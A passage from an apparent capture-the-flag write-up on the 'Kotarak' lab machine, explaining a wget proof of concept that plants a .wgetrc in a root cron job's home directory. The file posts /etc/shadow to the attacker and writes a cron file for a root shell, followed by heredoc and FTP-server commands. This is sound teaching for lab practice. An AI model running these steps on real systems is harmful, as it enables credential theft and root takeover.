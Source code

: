 This fill will set arguments for `wget` that aren't passed on the
command line. The POC uses two of these with the following `.wgetrc`
file:



    post_file = /etc/shadow
    output_document = /etc/cron.d/wget-root-shell



This sets two
[options](https://www.gnu.org/software/wget/manual.md_node/Wgetrc-Commands.md):

-   `post_file`:

    > Use POST as the method for all HTTP requests and send the contents
    > of file in the request body. The same as '--post-file=file'.

-   `output_document`:

    > Set the output filename---the same as '-O file'.

This POC will exploit over the course of two requests (so it's targeted
against a process where `wget` is running on `cron`, which seems perfect
for Kotarak).

The first request is what is exploited by this exploit, to write the
`.wgetrc` file into the running home directory. The next time it goes to
make the same request, it will POST the shadow file, and then save the
result into the `/etc/cron.d` directory.

#### Run It

I'll need multiple shells on the box, either by trigger the WAR file a
few times. I'll work out of a directory in `/tmp`. In one shell, I'll
drop the `.wgetrc` file:



    atanas@kotarak-dmz:/tmp/.0xdf$ cat <<_EOF_>.wgetrc                              
    > post_file = /etc/shadow
    > output_document = /etc/cron.d/wget-root-shell                                 
    > _EOF_  



And start a Python FTP server:



    atanas@kotarak-dmz:/tmp/.0xdf$ authbind python -m pyftpdlib -p21 -w
    /usr/local/lib/python2.7/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
      RuntimeWarning)
    [I 2021-05-15 13:32:46] >>> starting FTP server on 0.0.0.0:21, pid=26421 <<<
    [I 2021-05-15 13:32:46] concurrency model: async
    [I 2021-05-15 13:32:46] masquerade (NAT) address: None
    [I 2021-05-15 13:32:46] passive ports: None



